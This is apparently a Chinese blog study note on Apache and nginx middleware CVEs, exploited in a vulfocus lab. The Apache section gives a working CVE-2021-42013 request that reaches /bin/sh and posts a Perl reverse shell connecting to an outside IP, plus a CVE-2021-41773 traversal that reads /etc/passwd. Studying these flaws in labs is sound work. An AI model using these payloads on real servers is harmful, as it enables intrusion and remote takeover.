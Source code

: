 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134522805-744369503.png)

```plain
3、cve_2021_23017 无EXP
没有漏洞复现，只有相关的修复方案

4、cve_2017_7529 意义不大（信息泄露）
https://blog.csdn.net/qq_45688822/article/details/115458202
```

- 中间件-Apache-RCE&目录遍历&文件解析等

```plain
Apache HTTP Server是美国阿帕奇（Apache）基金会的一款开源网页服务器。该服务器具有快速、可靠且可通过简单的API进行扩充的特点，发现 Apache HTTP Server 2.4.50 中针对 CVE-2021-41773 的修复不够充分。攻击者可以使用路径遍历攻击将 URL 映射到由类似别名的指令配置的目录之外的文件。如果这些目录之外的文件不受通常的默认配置“要求全部拒绝”的保护，则这些请求可能会成功。如果还为这些别名路径启用了 CGI 脚本，则这可能允许远程代码执行。此问题仅影响 Apache 2.4.49 和 Apache 2.4.50，而不影响更早版本。

1、cve_2021_42013  RCE
环境：http://vulfocus.io/

访问网站，抓取数据包，返回包符合漏洞版本：Server: Apache/2.4.50 (Unix)
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134522476-895000299.png)

```plain
利用：
请求地址：/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh 
POST提交：echo;perl -e 'use Socket;$i="175.178.151.29";$p=5566;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

这个反弹shell的命令是Perl语言，也可以来源其他的语言，还可以使用其他语法来反弹shell，需要有perl环境才能执行。参考：https://forum.ywhack.com/shell.php

然后服务器监听5566（这个网上环境不知道怎么没了，所以演示不了）
2、cve_2021_41773 目录穿越（可以看到文件列表）
环境：http://vulfocus.io/#/dashboard

Apache HTTP Server 2.4.49、2.4.50版本对路径规范化所做的更改中存在一个路径穿越漏洞，攻击者可利用该漏洞读取到Web目录外的其他文件，如系统配置文件、网站源码等，甚至在特定情况下，攻击者可构造恶意请求执行命令，控制服务器。

访问，抓取数据包，返回版本：Server: Apache/2.4.49 (Debian)
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134523366-1289707849.png)

```plain
然后用burpsuite访问：/icons/.%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
读取到内容，一定要用burpsuite访问，在URL访问会出现编码。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134524901-1622707699.png)
